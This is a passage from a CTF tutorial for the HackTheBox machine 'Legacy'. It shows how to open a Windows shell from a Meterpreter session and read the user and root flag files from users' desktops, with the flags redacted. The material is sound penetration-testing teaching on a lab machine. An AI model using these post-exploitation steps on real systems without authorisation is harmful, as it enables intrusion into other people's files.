 .. _Legacy Capturing Flags:

Capturing Flags
===============

+-------------+--------------------------------+
|**Reference**|:ref:`Metasploit`               |
|             |                                |
|             |:ref:`Meterpreter`              |
|             |                                |
|             |:ref:`Windows Post-Exploitation`|
+-------------+--------------------------------+

.. index::
   single: Meterpreter

Now that we've got access to our target system, let's open a command prompt and see if we can find any juicy information. We'll do this by typing the ``shell`` command, which provides us access to the familiar `Windows` command-line:

.. code-block:: none

    meterpreter > shell
    Process 404 created.
    Channel 1 created.
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>

In most CTF competitions, you'll be hunting for "flags," which are typically short strings contained in text files which are intended to prove that you've successfully completed the challenge. On `HackTheBox`, these flags are typically stored in users' Desktop folders. Let's see which users we can access on this system, using the ``dir`` command. First, we'll get a directory listing of the ``C:\`` drive:

.. code-block:: none

    C:\WINDOWS\system32>dir C:\
    dir C:\
     Volume in drive C has no label.
     Volume Serial Number is 54BF-723B

     Directory of C:\

    16/03/2017  07:30                  0 AUTOEXEC.BAT
    16/03/2017  07:30                  0 CONFIG.SYS
    16/03/2017  08:07     <DIR>          Documents and Settings
    16/03/2017  07:33     <DIR>          Program Files
    16/03/2020  12:32     <DIR>          WINDOWS
                   2 File(s)              0 bytes
                   3 Dir(s)   6.473.027.584 bytes free

On this system, user accounts are stored in the ``Documents and Settings`` folder. Let's see what's inside that folder:

.. code-block:: none

    C:\WINDOWS\system32>dir "C:\Documents and Settings\"
    dir "C:\Documents and Settings\"
     Volume in drive C has no label.
     Volume Serial Number is 54BF-723B

     Directory of C:\Documents and Settings

    16/03/2017  08:07     <DIR>          .
    16/03/2017  08:07     <DIR>          ..
    16/03/2017  08:07     <DIR>          Administrator
    16/03/2017  07:29     <DIR>          All Users
    16/03/2017  07:33     <DIR>          john
                   0 File(s)              0 bytes
                   5 Dir(s)   6.473.027.584 bytes free

Notice that I surround the directory path in quotes; this is because there are spaces in the folder name. Without the quotes, `Windows` would think I was asking for a listing of the ``C:\Documents`` folder, which doesn't exist.

There appear to be two users on this system: ``Administrator`` and ``john``. Let's see what's on John's desktop:

.. code-block:: none

    C:\WINDOWS\system32>dir "C:\Documents and Settings\john\Desktop"
    dir "C:\Documents and Settings\john\Desktop"
     Volume in drive C has no label.
     Volume Serial Number is 54BF-723B

     Directory of C:\Documents and Settings\john\Desktop

    16/03/2017  08:19     <DIR>          .
    16/03/2017  08:19     <DIR>          ..
    16/03/2017  08:19                 32 user.txt
                   1 File(s)             32 bytes
                   2 Dir(s)   6.473.027.584 bytes free

Aha! There's a ``user.txt`` file. Let's see what's inside. To do this, we'll use the ``type`` command, which prints out the contents of the file:

.. code-block:: none

    C:\WINDOWS\system32>type "C:\Documents and Settings\john\Desktop\user.txt"
    type "C:\Documents and Settings\john\Desktop\user.txt"
    {{{user flag redacted}}}

Bingo! There's our first flag! We can now submit it in the `HackTheBox` page for `Legacy` to claim the User flag. Next, let's see what's on the ``Administrator`` account's desktop:

.. code-block:: none

    C:\WINDOWS\system32>dir "C:\Documents and Settings\Administrator\Desktop"
    dir "C:\Documents and Settings\Administrator\Desktop"
     Volume in drive C has no label.
     Volume Serial Number is 54BF-723B

     Directory of C:\Documents and Settings\Administrator\Desktop

    16/03/2017  08:18     <DIR>          .
    16/03/2017  08:18     <DIR>          ..
    16/03/2017  08:18                 32 root.txt
                   1 File(s)             32 bytes
                   2 Dir(s)   6.473.027.584 bytes free

We've found a ``root.txt`` file! This will typically contain the "root" flag, which proves we've gained admin access to the target system. Let's see what's inside, once again using the ``type`` command:

.. code-block:: none

    C:\WINDOWS\system32>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
    type "C:\Documents and Settings\Administrator\Desktop\root.txt"
    {{{root flag redacted}}}

Excellent! We've now obtained the "root" flag, and can claim it on `HackTheBox`. At this point, we've successfully completed this CTF system! We can now disconnect from the box using the ``exit`` command twice, once to leave the `Windows` command terminal, and again to exit `Meterpreter`.

.. note::

    At the end of a pentest, it's important to clean up after yourself. By typing ``exit`` twice, we quit the command shell as well as the `Meterpreter` session, disconnecting from the machine, without taking the time to clean up our tracks. This is typically considered bad form, as it could leave backdoors or exploits running on the target. In this case, however, the only exploit we uploaded to the system was `Meterpreter`, and if you take a second look at Figure 9, you'll see that `Meterpreter` automatically deleted the uploaded executable file before giving us a command prompt. Therefore, clean-up wasn't really necessary. But in the future, you'll want to be sure you clean up after yourself. For `HackTheBox` machines, this can be done by reverting the machine, but for real-world targets, you won't have this luxury.

Congratulations! You've successfully completed your first `HackTheBox` CTF challenge, and gained some valuable experience in the process. Feel free to continue reading through the rest of the chapters in order, or skip ahead to the :ref:`walkthroughs` section to see walk-throughs of other machines!
